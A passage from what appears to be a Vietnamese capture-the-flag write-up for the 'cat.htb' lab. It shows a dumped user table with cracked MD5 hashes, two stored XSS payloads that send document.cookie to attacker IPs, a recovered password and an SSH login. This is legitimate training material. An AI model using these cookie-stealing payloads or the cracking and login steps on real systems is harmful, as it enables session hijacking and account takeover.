 ```bash
| 11      | ✋🏿 💪🏿 👐🏿 🙌🏿 👏🏿 🙏🏿  | 1610838743cc90e3e4fdda748282d9b8 (dave) | dave                                                                                |
| 12      | khanh123@gmail.com            | 202cb962ac59075b964b07152d234b70 (123)  | <img src=x onerror=this.src='http://10.10.16.25/?c='+document.cookie>               |
| 13      | a@a.maik                      | bc6680c1a0d13d778d73c59185b1e412 (wan)  | "><script>document.location='http://10.10.14.93:8000/?a='+document.cookie;</script> |
+---------+-------------------------------+-----------------------------------------+------------------------------------------------------------------------------------
```

Ta tiếp tục sử dụng CrackStation để tiếp tục crack mã băm còn lại và crack được password của rosa : soyunaprincesarosa 
![alt text](image-27.png)
# FootHold
Ta sử dụng tk : rosa và password : soyunaprincesarosa để kết nối từ xa đến máy chủ đích
```bash
ssh rosa@cat.htb
```
![alt text](image-28.png)
![alt text](image-29.png)
Ta tìm file user.txt và kết quả không tìm thấy file
![alt text](image-30.png)
